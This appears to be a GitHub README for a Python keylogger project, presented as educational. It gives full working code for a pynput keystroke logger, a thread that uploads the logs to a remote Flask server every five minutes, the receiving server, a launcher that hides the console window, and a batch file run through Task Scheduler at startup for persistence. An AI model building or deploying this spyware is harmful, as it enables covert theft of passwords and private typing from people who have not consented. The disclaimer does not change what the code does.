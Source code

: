 # Keylogger Project

This repository contains a simple keylogger implemented in Python using the `pynput` library. The keylogger captures keystrokes and sends them to a remote server using Flask. This project is intended for educational purposes only. Unauthorized use of keylogger software is illegal and unethical. Always obtain explicit consent before using any software that monitors or collects data.

Key Features:
- Captures keystrokes and logs them
- Sends log files to a remote Flask server
- Runs as a background task

Setup Instructions:
1. Install required Python packages
2. Set up the Flask server
3. Configure the keylogger script
4. Run the keylogger in a virtual environment using VMware

## Table of Contents

- [Installation](#installation)
- [Usage](#usage)
- [How It Works](#how-it-works)
- [Ethical and Legal Notice](#ethical-and-legal-notice)
- [Contributing](#contributing)
- [License](#license)

## Installation

### Prerequisites

- Python 3.x
- `pynput` library
- `requests` library
- VMware Workstation Pro (for virtual environment)
- Flask (for the server)

### Step-by-Step Guide

1. **Clone the Repository:**

    ```bash
    git clone https://github.com/yourusername/keylogger-project.git
    cd keylogger-project
    ```

2. **Install Python Packages:**

    ```bash
    pip install pynput requests flask
    ```

3. **Set Up the Flask Server:**

    Create a file named `server.py` and add the following code:

    ```python
    from flask import Flask, request
    import os

    app = Flask(__name__)
    upload_folder = "key_logs"
    if not os.path.exists(upload_folder):
        os.makedirs(upload_folder)

    @app.route('/upload', methods=['POST'])
    def upload_file():
        if 'file' not in request.files:
            return "No file part", 400
        file = request.files['file']
        if file.filename == '':
            return "No selected file", 400
        file.save(os.path.join(upload_folder, file.filename))
        return "File uploaded successfully", 200

    if __name__ == "__main__":
        app.run(host='0.0.0.0', port=5000)
    ```

    Run the Flask server:

    ```bash
    python server.py
    ```

4. **Configure the Keylogger:**

    Create a file named `keylogger.py` and add the following code:

    ```python
    from pynput import keyboard
    import logging
    import os
    import requests
    import threading
    import time

    log_dir = ""
    log_file = os.path.join(log_dir, "key_log.txt")

    logging.basicConfig(filename=log_file, level=logging.DEBUG, format='%(asctime)s: %(message)s')

    def on_press(key):
        try:
            logging.info(str(key))
        except AttributeError:
            logging.info('Special key {0} pressed'.format(key))

    def send_log_file():
        while True:
            if os.path.exists(log_file):
                with open(log_file, 'rb') as f:
                    requests.post("http://<server_ip>:5000/upload", files={'file': f})
            time.sleep(300)  # Send log file every 5 minutes

    if __name__ == "__main__":
        threading.Thread(target=send_log_file).start()
        with keyboard.Listener(on_press=on_press) as listener:
            listener.join()
    ```

    Replace `<server_ip>` with the IP address of your Flask server.

5. **Run the Keylogger in Background:**

    Create a file named `run_keylogger_in_background.py` and add the following code:

    ```python
    import subprocess

    def run_script_background(script_path):
        subprocess.Popen(["python", script_path], creationflags=subprocess.CREATE_NO_WINDOW)

    if __name__ == "__main__":
        script_to_run = "keylogger.py"  # Path to your keylogger script
        run_script_background(script_to_run)
    ```

6. **Create a Batch File:**

    Create a batch file named `run_keylogger.bat` and add the following code:

    ```batch
    @echo off
    python C:\path\to\run_keylogger_in_background.py
    ```

    Replace `C:\path\to` with the actual path to your script.

7. **Set Up Scheduled Task:**

    Use Windows Task Scheduler to create a scheduled task that runs the batch file at startup.

## Usage

1. Start the virtual machine in VMware.
2. Verify that the keylogger is running as a background task.
3. Check the Flask server's `key_logs` folder to see if log files are being received.

## How It Works

- **Keylogger Script:** Captures keystrokes and saves them to a log file.
- **Background Script:** Runs the keylogger in the background without showing a console window.
- **Batch File:** Executes the background script.
- **Flask Server:** Receives the log files from the keylogger and stores them.

## Ethical and Legal Notice

This project is intended for educational purposes only. Unauthorized use of keylogger software is illegal and unethical. Always obtain explicit consent before using any software that monitors or collects data.

## Contributing

Contributions are welcome! Please submit a pull request or open an issue to discuss your changes.

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.
